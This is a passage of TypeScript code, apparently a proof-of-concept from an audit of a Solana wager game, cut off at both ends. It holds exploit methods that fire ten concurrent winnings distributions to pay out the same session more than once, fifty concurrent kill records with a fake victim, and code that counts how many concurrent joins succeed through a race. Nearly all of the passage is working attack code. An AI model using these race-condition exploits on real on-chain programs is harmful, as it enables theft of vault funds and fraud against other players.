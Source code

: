 ```typescript

            // 4. Multiple joins may succeed due to race condition
            const successful = results.filter(r => r.status === 'fulfilled');
            console.log(`${successful.length} concurrent joins succeeded`);
        }
    }

    async exploitDoubleDistribution(sessionId: string): Promise<void> {
        // 1. Wait for game completion
        await this.waitForGameCompletion(sessionId);

        // 2. Submit multiple distribution calls rapidly
        const distributionPromises = [];

        for (let i = 0; i < 10; i++) {
            const distTx = this.wagerProgram.methods
                .distributeWinnings(sessionId, 0) // Team 0 wins
                .accounts({
                    gameSession: this.getSessionPDA(sessionId),
                    gameServer: this.gameServerKeypair.publicKey,
                    vault: this.getVaultPDA(sessionId),
                    winner1: this.attackerAccounts[0],
                    winner2: this.attackerAccounts[1],
                    winner3: this.attackerAccounts[2],
                    winner4: this.attackerAccounts[3],
                    winner5: this.attackerAccounts[4],
                    tokenProgram: TOKEN_PROGRAM_ID,
                })
                .signers([this.gameServerKeypair])
                .rpc();

            distributionPromises.push(distTx);
        }

        // 3. Execute all distributions simultaneously
        try {
            await Promise.all(distributionPromises);
            console.log("Multiple distributions executed - double spending achieved");
        } catch (error) {
            console.log("Some distributions failed, but race may have succeeded");
        }
    }

    async exploitKillRecordingRace(sessionId: string): Promise<void> {
        // 1. Monitor for active games
        const gameSession = await this.getGameSession(sessionId);

        if (gameSession.status === 'InProgress') {
            // 2. Submit multiple kill records for same player simultaneously
            const killPromises = [];

            for (let i = 0; i < 50; i++) {
                const killTx = this.wagerProgram.methods
                    .recordKill(
                        sessionId,
                        0, // Killer team
                        this.attackerKeypair.publicKey, // Attacker as killer
                        1, // Victim team
                        this.fakeVictim.publicKey // Fake victim
                    )
                    .accounts({
                        gameSession: this.getSessionPDA(sessionId),
                        gameServer: this.gameServerKeypair.publicKey,
```